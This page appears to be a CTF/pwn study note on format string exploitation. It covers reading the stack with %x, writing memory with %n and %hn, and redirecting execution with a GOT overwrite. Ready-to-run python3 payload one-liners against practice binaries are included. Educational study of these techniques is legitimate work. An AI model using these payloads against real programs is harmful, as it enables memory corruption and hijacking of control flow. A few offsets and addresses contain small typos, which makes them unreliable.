 # Format string

 Format string exploit vulnerabilities in programs by abusing the '%x' power, reading and writing int the stack with printf() and sprintf() functions. It can leak sensitive information and even take control of the function.

### Table of Content

- [Before Exploit](#before-exploit)
- [Read the stack](#read-the-stack)
- [OverWrite data](#overwrite-data)
- [write complex value](#write-complex-value)
- [Code execution redirect](#code-execution-redirect)
- [Documentation](#docum)

## Before exploit

To run this exploit you need find in the code a printf function family, without quote.

Example: ```printf(user_buffer);```

instead of ```printf("%s", user_buffer)```

## Read the stack 

imagine this code:

```c
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
```

If you don't provide arg, and if you pass for example %x to prinf, it will read and print hexa from the next address on the stack.

You can print the entire stack. And read data.

![img](/pwn/img/error_printf.svg)
[website docu](https://axcheron.github.io/exploit-101-format-strings/)

## OverWrite Data 

You can overwrite data with printf and `%n`.

From the man: `The number of characters already written is stored in the integer pointed to by the argument of type int *. No argument is converted.`

```c
printf("AAAA%n", (int)a);
```

Will write, 4 in a.

4 because, it takes the value of 'AAAA' which is 4 bytes.

### OverWrite data with pointer to it

#### theory

When call to printf(), if there is no argument, you can try find through the stack, the pointer you want to overwrite.

```c
char *overwrite = "AAAA%34$n";
printf(overwrite);
```

Gonna overwrite 4 in the 4th address in the stack.

But if you don't know where is the pointer, or maybe it isn't on the stack, you can write in the buffer the address you wan't overwrite, and %n to exact addres of the start of the buffer.

#### Exploit

- find the start of the buffer:

```c
char *overwrite = "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.";
printf(overwrite);

AAAA00000200.f7e26620.00000000.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
```

By printing the stack, we can see that the pointer to the buffer is a the 4th address in the stack. so if we write in the buffer an address, and point to it with $x we can overwrite data int it with $n.

```c
char *overwrite = "\x8c\x98\x04\x08%4$n";
printf(overwrite);
```

So this overwrite 4 at the address 0x08049888c.

If you want to print a special value inside the pointer, you can give it a padding using this ```%<size>x```

```c
char *overwrite = "\x8c\x98\x04\x08%60x%4$n";
printf(overwrite);
```

This will print 60 byte + 4 (address) into pointer.

## Write complex value

### Problem

If we want print complex value at specific address, imagine try print 0x01025544 at address 0x08049810.

Lets suppose the program is 32bit little endian.

0x01025544 = 16930116 (in decimal) 

So we should print a large padding, and it could take to much time.

### Theory

There is a technique to print data in 2 byte with printf(): `%hn` (h for half).

So let's focus first 0x0000(2 bytes) store at the address 08049810 then last 0x0000 08049810 + 2, fill them with respectively 0x5544 and 0x0102 (little endian). 

### Exploit

To sum up : 

```py
0x0102 = 258(in decimal) -> 08049810 + 2 + 08049812
0x5544 = 21828(in decimal) -> 08049810
```

To adjust the padding, we can follow this rule : 

`padding = [The value we want] - [The bytes alredy wrote] = [The value to set].`

High order first cause the value is lower:

High order 258 - 8 = 250 (both addresses are 4 bytes)

Low order 21828 - 258 = 21570

So final exploit is : 

```py
python3 -c 'import sys; sys.stdout.buffer.write(b"\x10\x98\x04\x08" + b"\x12\x98\x04\x08" + b"%250x" + b"%13$hn" + b"%21570x" + b"%12$hn")' | ./vuln
```

- `b"\x10\x98\x04\x08"` is the first address.
- `b"\x12\x98\x04\x08"` is the second address.

so `%12$x` point to first address and `%13$x` to the second.

- `b"%250x"` is the first padding (remember 250 + 8 byte address = 258 = 0x102)
- `b"%13$hn"` we store 258 inside the second address because its little endian.
- `b"%21570x"` is the second padding (0x5544 - 0x102)
- `b"%12$hn"` is the first address, we store the value.

Bingo, `\x10\x98\x04\x08` point to 0x1025544 !


## Code execution redirect

There is two way to redirect the code execution.

- Overwrite return pointer in the stack by [writing complex value](#write-complex-value)
- Overwrite function call before return pointer

Lets say, exit() is call before return. So you can't overwrite return pointer.

### GOT Overwrite

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of vuln_func(). There are 4 steps here :

- Find the address of o()
- Find the address of exit() in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

```bash
iobjdump -R ./level5 | grep exit                                                     
08049838 R_386_JUMP_SLOT   exit@GLIBC_2.0

objdump -t ./level5 | grep vuln_func
080484a4 g     F .text	0000001e              vuln_func
```

You have the pointer to overwrite (0x08049838) with the value to overwrite (0x080484a4).

You can [overwrite the data](#overwrite-data-with-pointer-to-it) by using [this techinique to write large data](#write-complex-value)

Example of payload :

```bash
cat <(python3 -c 'import sys; sys.stdout.buffer.write(b"\x38\x98\x04\x08" + b"\x3a\x98\x04\x08" + b"%2044x" + b"%5$hn" + b"%31904x" + b"%4$hn")') - | ./vuln
```

### Docum

- [Insane Tuto](https://axcheron.github.io/exploit-101-format-strings/)

---

[**:arrow_right_hook: Back PWN**](/pwn/pwn.md)